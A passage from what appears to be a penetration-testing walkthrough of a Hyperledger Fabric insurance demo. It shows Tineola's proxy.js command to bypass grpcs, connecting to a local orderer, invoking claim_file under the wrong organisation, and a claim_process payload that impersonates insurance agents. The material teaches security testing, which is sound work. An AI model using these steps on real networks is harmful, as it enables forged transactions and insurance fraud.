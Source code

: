 Tom uses the `proxy` feature of Tineola to get around this "silly" restriction. Dammit, security people :)

### Using Proxy.js to Bypass grpcs Restrictions
`proxy.js` emulates SSLStrip (not exactly). It connects to a TLS endpoint and then opens up a local TCP listener. Everything sent to the local port is wrapped in TLS and sent to the endpoint (remember `grpcs` is just `grpc` wrapped in TLS).

Tom opens up a new terminal and executes the following command:

```
$ /tineola/bin/proxy.js https://127.0.0.1:7050 12345
opened server on { address: '::', family: 'IPv6', port: 12345 }
```

Now everything sent to `localhost:12345` is wrapped in TLS and sent to the orderer at `127.0.0.1:7050`.

Back in Tineola, Tom sets the local port as orderer (note this time he is using `grpc` and not `grpcs`).

```
tineola$ orderer-set grpc://localhost:12345
Connecting to orderer grpc://localhost:12345
Successfully connected to orderer
```

Using the proxy, Tom can invoke transactions and order them:

``` json
tineola$ channel-query-cc bcins claim_file --invoke
How many arguments to pass to function? 1
Value for argument 1: {"contract_uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3",
"date": "2018-08-21T02:14:11.259Z","description": "This is Carol4. My item broke.",
"is_theft": false,"uuid": "c0a811e8-a4ea-11e8-98d0-529269fb1459"}
CC Response: 
```

Transaction is written to the ledger (note the creator is `RepairShopOrgMSP` instead of `InsuranceOrgMSP`:

![](21.png)

### Impersonating Insurance Agents
Tom logs into the repairshop website but cannot see any claims. Insurance agents must verify all claims. But Tom can impersonate them and call `claim_process` directly. Tom copies one `claim_process` transaction from the ledger and replaces `contract_uuid` and `uuid`.


```
claim_process({
	"contract_uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3",
	"uuid": "c0a811e8-a4ea-11e8-98d0-529269fb1459",
	"status": "R",
	"reimbursable": 0
})
```
